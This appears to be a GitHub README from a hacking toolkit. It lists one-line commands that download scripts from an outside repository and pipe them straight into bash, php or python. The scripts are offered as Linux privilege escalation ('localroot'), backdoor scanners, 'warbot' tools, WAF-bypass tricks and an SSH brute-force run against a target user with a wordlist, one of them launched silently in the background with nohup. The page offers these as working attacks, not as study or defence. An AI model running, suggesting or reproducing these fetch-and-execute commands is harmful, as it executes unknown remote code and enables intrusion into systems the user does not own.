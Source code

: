 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& dos2unix /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
# Auto Backup defend ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/autobackup.php | php - backup y
```
# Auto Warbot ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/warbot.php | php
```
# scanner backdoor high ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/outsca.php | php
```
# Scanner backdoor simple ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/simple.php | php
```
# Bayypas Waf
```
Transfer-Encoding: chunked
```
Content-Type: multipart/form-data; boundary=---------------------------123456789;
```
shell%2Ephp
```
```
#Brute Force Ssh
'''
'''
https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/bfssh.sh

./entod.sh -u targetuser -t 0.5 -s 0.003 -w top12000.txt

nohup curl -s https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/ko.py | python - > /dev/null 2>&1 &

```
# Web Defend
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/putus.sh | bash
```

# Bayypas Waf
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/ch.php | php && curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/glandang | php && curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/putus.sh | bash
```

☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
